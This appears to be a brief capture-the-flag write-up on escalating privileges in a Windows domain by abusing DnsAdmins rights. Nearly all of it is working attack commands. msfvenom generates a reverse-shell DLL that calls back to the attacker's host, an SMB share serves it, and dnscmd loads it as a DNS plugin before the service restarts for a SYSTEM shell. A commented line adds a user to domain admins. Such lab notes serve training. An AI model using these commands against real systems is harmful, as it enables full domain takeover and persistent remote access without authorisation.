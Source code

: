 ![image-20221212234958467](./images/image-20221212234958467.png)



# Privesc-dnsadmin

generate payload.

```bash
# exploit dnsadmin
# msfvenom -p windows/x64/exec cmd='net group "domain admins" ryan /add /domain' -f dll -o adduser.dll

msfvenom -p windows/x64/shell_reverse_tcp LHOST=$kip LPORT=443 -f dll -o rev.dll

# smb share
smbserver.py -smb2support share ./ &

dnscmd  /config /serverlevelplugindll \\10.10.14.90\share\rev.dll
sc.exe \\resolute stop dns
sc.exe \\resolute start dns
```

got system shell.



add user also works. but will be cleaned quickly.
